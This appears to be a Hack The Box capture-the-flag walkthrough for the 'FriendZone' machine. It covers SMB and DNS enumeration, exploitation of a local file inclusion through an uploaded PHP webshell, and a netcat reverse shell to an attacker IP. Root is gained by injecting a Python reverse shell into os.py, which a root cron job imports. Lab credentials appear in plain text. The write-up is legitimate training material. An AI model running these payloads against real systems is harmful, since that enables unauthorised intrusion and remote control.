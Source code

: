 # [FriendZone](https://app.hackthebox.com/machines/friendzone)


```bash
rustscan 10.10.10.123
```

![Alt text](img/image.png)


Let's do nmap scan for open ports.


```bash
nmap -sC -sV -p 21,22,53,80,139,443,445 10.10.10.123
```

![Alt text](img/image-1.png)


Let's enumerate SMB shares.

```bash
smbmap -H 10.10.10.123
```

![Alt text](img/image-2.png)



Let's connect to 'Development' share., we don't find anything useful.

```bash
smbclient -N //10.10.10.123/Development 
```

Try to join 'general' share.

```bash
smbclient -N //10.10.10.123/general
```

and We find admin credentials..

![Alt text](img/image-3.png)


admin:WORKWORKHhallelujah@#


Let's search for subdomains via 'dig' tool.

```bash
dig axfr friendzone.red @10.10.10.123
dig axfr friendzoneportal.red @10.10.10.123
```

![Alt text](img/image-4.png)


Let's add this domains to our '/etc/hosts' file for resolving purposes.

![Alt text](img/image-5.png)


For https on 'administrator1.friendzone.red' , I see login form, I use 'admin:WORKWORKHhallelujah@#' credentials and I can login.


I am on Dashboard page.

![Alt text](img/image-6.png)


Let's do directory brute-forcing.

```bash
gobuster dir -u https://administrator1.friendzone.red -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php -k

```

```bash
Note: -k option for gobuster to skip TLS verification.
```

![Alt text](img/image-17.png)



Here, I found LFI and see that

![Alt text](img/image-7.png)


Let's read source code of application.

![Alt text](img/image-8.png)

![Alt text](img/image-9.png)


We can grab also 'upload.php' file.

![Alt text](img/image-10.png)


I see from source code, that I need to add my webshell into SMB Share which I found before. (have write ACCESS to 'Development' share)


I upload my webshell into share.

```bash
smbclient -N //10.10.10.123/Development -c 'put cmd.php dr4ks.php'
```

![Alt text](img/image-11.png)


I can execute commands via web shell, I uploaded into SMB Share.

![Alt text](img/image-12.png)


Now, it's time tp add reverse shell to command and get shell.


Reverse shell payload:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.16.4 1337 >/tmp/f
```


![Alt text](img/image-13.png)


![Alt text](img/image-14.png)


I spawned interactive shell.

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
Ctrl + Z
stty raw -echo ; fg
```
Put some modifications
```bash
export TERM=xterm
export SHELL=bash
```

I found clear-text credentials of 'friend' user.

![Alt text](img/image-15.png)


friend: Agpyu12!0.213$


user.txt

![Alt text](img/image-16.png)


Here, I see and investigate '/opt/server_admin/reporter.py' file that runned by root for every 2 minutes (**identified by pspy64 tool)**


While reading this file, 'os' library is used for executing commands, I can exploit this vulnerability.

![Alt text](img/image-18.png)


Let's add reverse shell into '/usr/lib/python2.7/os.py' file.

```python
import socket
import subprocess
import os


s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.4",1337))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```


![Alt text](img/image-19.png)



root.txt


![Alt text](img/image-20.png)

